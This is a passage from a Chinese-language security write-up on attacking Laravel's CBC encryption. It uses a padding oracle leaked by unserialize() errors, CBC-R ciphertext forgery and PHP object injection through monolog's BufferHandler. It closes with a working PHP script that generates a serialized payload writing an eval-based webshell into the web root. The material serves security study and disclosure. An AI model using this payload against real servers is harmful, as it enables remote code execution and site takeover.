 * * *

Laravel使用的是CBC模式的分组密码，我们也能够提供任意密文让其解密，我们是否能够实施一次牛逼哄哄的[CBC padding oracle attack](http://link.springer.com/chapter/10.1007/3-540-46035-7_35)攻击呢？ 答案是：在某种情况下，YES

一次有预谋的padding oracle attack攻击需要目标应用能够泄漏不同填充下解密的状态，回头看看解密过程的代码， 有三个地方填充状态可能会被泄漏:

*   mcryptDecrypt(): 无侧漏，就是调用`mcrypt_decrypt()`，没对padding进行处理
*   stripPadding(): 无明显侧漏，该方法检测padding是否合法，但不会报告错误，只是返回输入是否被篡改。 这里有个基于时间的边信道侧漏，是否多调用substr()，但是我们选择无视它。
*   unserialize(): 当error reporting启用，一个不合法的PHP序列化字符串，它会侧漏输入字符串的长度。

嗯，当PHP reporting启用时(其实应该是Laravel的debug模式开启时)，反序列化解密后的数据会告诉我们有多少byte的padding被去除， 例如`unserialize()`爆出"offset X of 22 bytes"的错误时，我们就可以知道这里有10byte的padding。

这样的侧漏对于组织一次有预谋的padding oracle attack来说，足够！

0x06 为任意明文伪造合法的密文
-----------------

* * *

既然有了个CBC decryption oracle，那就很有可能利用[CBC-R](https://www.usenix.org/legacy/events/woot10/tech/full_papers/Rizzo.pdf)技术来加密任意明文。

![enter image description here](http://drops.javaweb.org/uploads/images/61c9f1c7f43e86ff822a3cd7e6f51312d681c91e.jpg)

CBC模式的解密过程为 Pi=DK(Ci) xor Ci−1,C0=IV ，如果攻击者能够控制或者知晓 DK(Ci) 和Ci−1 ， 他就能够生成他想要的明文块。既然这里有个选择密文攻击，很显然攻击者能够控制 Ci 和 Ci−1 ， 至于DK(Ci)

我们能够利用decryption oracle获得，因此攻击者无需知道密钥K即可对任意明文加密。牛逼吧，如果应用程序使用了这套加密API，我们就伪造密文来执行敏感操作，但是这还是得取决于应用有多傻逼， 我们希望变得更牛逼。

0x07 发送任意密文
-----------

* * *

我们已经使用`unserialize()`作为我们padding oracle的基础， 那我们再次利用`unserialize()`作一次PHP对象注入来达到任意代码执行，如何？

经过搜索Laravel代码之后，发现还是蛮多类定义了`__wakeup()`或者`__destruct()`魔术方法， 不过我发现最有趣的一个类当属被很多项目引用的monolog PHP日志记录框架中的BufferHandler类，显然，如果payload利用的是被广泛应用的monolog而不是其他特定的类，会更为通用。 使用Composer(PHP依赖管理器)时，monolog很有可能被包含，因为它可能被注册为PHP class autoload，这也就意味着， monolog不用被明确的包含在我们请求的文件中，当我们反序列化的时候，PHP会自动寻找加载这个类。

BufferHandler类包装这另外一个log处理类，当BufferHandler对象被销毁时，BufferHandler对象会用它包含的实际处理log的对象处理它当前的log buffer，一个比较好的选择是能够存储到任意流资源(比如说文件流)的StreamHandler类，所以我们的计划是注入一个包含StreamHandler对象的BufferHandler对象，其中StreamHandler对象的流资源指向web根目录，并且BufferHandler内包含着带有php webshell的log buffer，好，计划通，行动。

利用下面的代码，很容易生成对应的payload:

```
<?php

require_once 'vendor/autoload.php';

use Monolog\Logger;
use Monolog\Handler\StreamHandler;
use Monolog\Handler\BufferHandler;

$handler = new BufferHandler(
    new StreamHandler('target-file.php')
);
$handler->handle(array(
    'level' => Logger::DEBUG,
    'message' => '<?php eval(hex2bin($_GET[\'x\']));?>',
    'extra' => array(),
));
print bin2hex(serialize($handler)) . "\n";
?>

```